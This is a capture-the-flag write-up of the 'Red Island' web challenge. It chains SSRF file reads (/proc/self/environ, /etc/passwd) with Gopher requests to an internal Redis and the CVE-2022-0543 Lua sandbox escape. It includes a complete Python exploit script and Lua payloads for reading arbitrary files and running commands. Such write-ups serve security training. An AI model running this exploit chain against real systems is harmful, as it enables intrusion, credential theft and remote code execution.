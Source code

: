# [Web] Red Island

Red Island is an application where we can upload any image via their URL. The URL will be fetched, and the image turned red. For instance:

![sloth](./img/web_red_1.png)

This calls for [SSRF](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)! We can either call Remote or Local Files. Let’s try it out with `file:///proc/self/environ`. This gives us access to all the pods deployed on Kubernetes.

![environ](./img/web_red_2.png)

And now with `file:///etc/passwd`, all the users in the current docker pod:

![passwd](./img/web_red_3.png)

We now know this is running a Redis cache. Well for **Red Is**land, not surprising anymore!

In order to communicate with Redis from a SSRF, we can use the protocol [Gopher](https://redis.io/docs/reference/gopher/). This [article](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b?gi=548a40aaf293) gives a great walk-through on how Gopher can be used to talk to Redis via a SSRF.

Now, there are a few vulnerabilities using Redis we could try to exploit. However:

 - Redis CVE [4.x/5.x RCE](https://github.com/Ridter/redis-rce), using `SLAVEOF` replication and `MODULE LOAD`: the Redis instance doesn't connect to our rogue Redis server
 - Using the same `MODULE LOAD`, but uploading our own module: `413 Payload Too Large`. Damn!
 - Redis LUA scripting, such as `SCRIPT LOAD f=io.open("/flag.txt","rb");print(f:read)`, however it should forbid us to access anything outside Redis (host, network, etc). This should be forbidden by [Redis Sandbox](https://redis.io/docs/manual/programmability/#sandboxed-script-context)

**Should**

Redis [CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543) allows to escape the sandbox and use LUA functions that can execute commands on the host running Redis.

Let's try to use this in order to escalate our Gopher SSRF into code execution. We can use the `SCRIPT LOAD` and `EVALSHA` commands in order to provision scripts, get their SHA1, and execute them with arguments given by the `EVALSHA` command.

We can create scripts, using an URL encoded [Gopher payload generation](https://raw.githubusercontent.com/rhamaa/Web-Hacking-Lab/master/SSRF_REDIS_LAB/payload_redis.py):

![SCRIPT](./img/web_red_4.png)

We script the user registration, user login and payload generation for ease of use. However, using spaces is interpreted as different commands. Tis just a scratch, we can use LUA's `string.char(32)` in order to generate spaces wherever we want.

```
#!/usr/bin/env python

import urllib.parse
import requests
import json
import sys
import time

headers = {"Content-Type": "application/json"}

def logout(session, host):
    logout_path = "/logout"
    session.get(host + logout_path)

def login(session, host, username, password):
    login_path = "/api/login"
    resp = session.post(host + login_path, json={'username':username,'password':password}, headers=headers)
    if resp.status_code == 200:
        print("[+] logged in")
        return True
    else:
        print("[-] login failed: {}".format(resp.status_code))
        return False

def register(session, host, username, password):
    reg_path = "/api/register"
    resp = session.post(host + reg_path, json={'username':username,'password':password}, headers=headers)
    if resp.status_code == 200:
        print("[+] registered")
        return True
    else:
        print("[-] register failed: {}".format(resp.status_code))
        return False

def generate(session, host, payload, username, password):
    generate_path = "/api/red/generate"
    resp = session.post(host + generate_path, json={"url": payload}, headers=headers)
    tries = 0
    max_tries = 5
    while tries < max_tries:
        try:
            text = json.loads(resp.text)
            if 'message' in text:
                if text['message'] == 'The URL specified is unreachable!':
                    print("[~] URL specificed unreachable, retrying")
                elif text['message'] == 'Authentication expired, please login again!':
                    print("[-] Auth expired, reloging")
                    login(session, host, username, password)
                else:
                    print(text['message'])
                    return True
        except Exception as e:
            print("[-] error: {}".format(str(e)))
            return False
        finally:
            tries += 1
            time.sleep(1)
    logout(session, host)

def generate_resp(command):
    res = ""
    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
    return res

def generate_gopher(payload):
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    print("[+] generated {}".format(final_payload))
    return final_payload

def main():
    session = requests.Session()
    if len(sys.argv) != 4:
        print("[!] Usage: {} url username password".format(sys.argv[0]))
        exit()
    host = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ret = register(session, host, username, password)
    ret = login(session, host, username, password)
    if ret:
        while True:
            res = ''
            string = input('> ')
            res += generate_resp(string)
            res += generate_resp('quit')
            res = res.replace("\n","\r\n")
            ret = generate(session, host, generate_gopher(res), username, password)
    else:
        print("[-] exiting")
        exit()

main()
```

Using the script as a Redis CLI together with our whitespace bypass, we can create any script we want, such as:

 - Read any file: `SCRIPT LOAD return(package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0","luaopen_io")().open(ARGV[1],"r"):read("*a"))`
 - Run any 1 arg command: `SCRIPT LOAD return(package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0","luaopen_io")().popen(ARGV[1],"r"):read("*a"))`
 - Run any 2 arg command: `SCRIPT LOAD return(package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0","luaopen_io")().popen(ARGV[1]..string.char(32)..ARGV[2],"r"):read("*a"))`
 - Just read the flag: `SCRIPT LOAD f=io.open("/root/flag","rb");print(f:read)`

For instance, with the 2 args command:

![Flag 1](./img/web_red_5.png)

Or the arbitrary read:

![Flag 2](./img/web_red_6.png)

The flag is `HTB{r3d_righ7_h4nd_t0_th3_r3dis_land!}`
